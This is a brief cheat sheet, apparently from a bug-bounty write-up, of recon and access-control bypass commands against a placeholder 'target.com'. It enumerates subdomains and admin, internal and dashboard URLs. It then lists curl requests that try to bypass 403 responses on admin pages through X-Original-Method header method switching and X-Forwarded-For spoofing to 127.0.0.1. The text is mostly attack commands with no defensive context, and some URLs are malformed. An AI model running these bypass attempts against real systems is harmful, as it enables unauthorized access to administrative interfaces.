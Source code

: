 # RECON command used

- subfinder -d target.com -silent > subs.txt
- httpx -l subs.txt -mc 403,401,200 -tech-direct -title > live.txt
- gau --subs target.com | grep -iE 'admin|internal|dashboard' > gau_admin.text
- After finding 403 
- curl -X POST https://admin/dashboard -H "X-Original-Method: GET"
- OR
- curl -X HEAD https://admin/settings -H "X-Original-Method: GET"
- curl -H "X-Forwarded-For: 127.0.0.1" https://admin/profile



